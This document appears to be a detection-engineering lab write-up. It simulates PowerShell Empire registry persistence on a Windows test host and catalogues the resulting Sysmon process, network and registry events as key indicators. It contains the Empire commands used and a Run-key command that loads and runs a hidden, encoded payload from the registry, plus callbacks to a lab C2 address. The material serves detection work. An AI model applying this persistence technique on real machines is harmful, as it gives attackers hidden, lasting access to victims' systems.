 # Persistence Registry

## Goal 
| Simulation # | Stager Option |
| ------------ | ------------- |
| 1            | usermodule persistence/userland/registry |

## Technical Context
### Assumption
* Attacker is a low-priv user 
* The C2 connection has established 
  
### Simulation 1
This attacker modify the registry to main the persistence in a low-priv environment. And the low-priv user simulate the reboot.


#### Payload Generation
```bash
(Empire: agents) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------

 M5N2S3RG ps 192.168.254.47  WIN-40TITGP9BI7   WIN-40TITGP9BI7\victim  powershell         920    1/0.0    2020-12-04 22:47:38  http


(Empire: agents) > interact M5N2S3RG
(Empire: M5N2S3RG) > usemodule persistence/userland/registry
(Empire: powershell/persistence/userland/registry) > set Listener http
(Empire: powershell/persistence/userland/registry) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked M5N2S3RG to run TASK_CMD_WAIT
[*] Agent M5N2S3RG tasked with task ID 1
[*] Tasked agent M5N2S3RG to run module powershell/persistence/userland/registry
(Empire: powershell/persistence/userland/registry) >
Registry persistence established using listener http stored in HKCU:Software\Microsoft\Windows\CurrentVersion\Debug.
```

#### Attack Begin

1. Execute the persistence module on empire


##### Raw Sysmon Event

User execute the payload 
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T14:47:35.932657000Z'/><EventRecordID>24216</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='3828'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 14:47:35.927</Data><Data Name='ProcessGuid'>{84453EAB-4C07-5FCA-BDC5-500400000000}</Data><Data Name='ProcessId'>920</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>powershell  -noP -sta -w 1 -enc  //5112bytes long payload//</Data><Data Name='CurrentDirectory'>C:\Users\victim\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-4AE9-5FCA-D7FA-480400000000}</Data><Data Name='LogonId'>0x448fad7</Data><Data Name='TerminalSessionId'>4</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-4C03-5FCA-F9C2-500400000000}</Data><Data Name='ParentProcessId'>3700</Data><Data Name='ParentImage'>C:\Windows\System32\cmd.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\system32\cmd.exe" </Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 920                                                                                           |          |
| parent_process_id   | 3700                                                                                           |          |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc //5112bytes long payload// |          |

C2 connection has established
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T14:47:41.676231300Z'/><EventRecordID>24217</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='2332'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-03 14:15:47.576</Data><Data Name='ProcessGuid'>{84453EAB-4C07-5FCA-BDC5-500400000000}</Data><Data Name='ProcessId'>920</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>54232</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 3                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 920                                                                                           |          |
| dest_ip           | 192.168.254.46 | my test lab c2                                                     |
| dest_port         | 80             | depends on the empire listener type, in this simulation i set http |

Attacker begin the persistence
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>13</EventID><Version>2</Version><Level>4</Level><Task>13</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T14:48:48.938191300Z'/><EventRecordID>24226</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='3828'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>T1060,RunKey</Data><Data Name='EventType'>SetValue</Data><Data Name='UtcTime'>2020-12-04 14:48:48.937</Data><Data Name='ProcessGuid'>{84453EAB-4C07-5FCA-BDC5-500400000000}</Data><Data Name='ProcessId'>920</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='TargetObject'>HKU\S-1-5-21-2892772840-4280103526-640991184-1003\Software\Microsoft\Windows\CurrentVersion\Run\Updater</Data><Data Name='Details'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 13                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 920                                                                                           |          |
| registry_path           | HKU\S-1-5-21-2892772840-4280103526-640991184-1003\Software\Microsoft\Windows\CurrentVersion\Run\Updater | |
| registry_value_name         | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"| |

After user reboot

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:34.180659100Z'/><EventRecordID>25211</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:34.133</Data><Data Name='ProcessGuid'>{84453EAB-5386-5FCA-95AE-0A0000000000}</Data><Data Name='ProcessId'>3228</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-5385-5FCA-0863-0A0000000000}</Data><Data Name='ParentProcessId'>868</Data><Data Name='ParentImage'>C:\Windows\explorer.exe</Data><Data Name='ParentCommandLine'>C:\Windows\Explorer.EXE</Data></EventData></Event>
```
##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 3228                                                                                           |          |
| parent_process_id   | 868                                                                                           |          |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x" |          |



```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:36.388822900Z'/><EventRecordID>25212</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:36.386</Data><Data Name='ProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ProcessId'>3492</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120bytes long payload//</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-5386-5FCA-95AE-0A0000000000}</Data><Data Name='ParentProcessId'>3228</Data><Data Name='ParentImage'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 3492                                                                                           |          |
| parent_process_id   | 3228                                                                                           |  the explorer.exe when OS boot up |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120bytes long payload//|          |


C2 Callback
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:41.115550900Z'/><EventRecordID>25217</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1952'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:39.108</Data><Data Name='ProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ProcessId'>3492</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>49167</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 3                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 3492                                                                                           |          |
| dest_ip           | 192.168.254.46 | my test lab c2                                                     |
| dest_port         | 80             | depends on the empire listener type, in this simulation i set http |
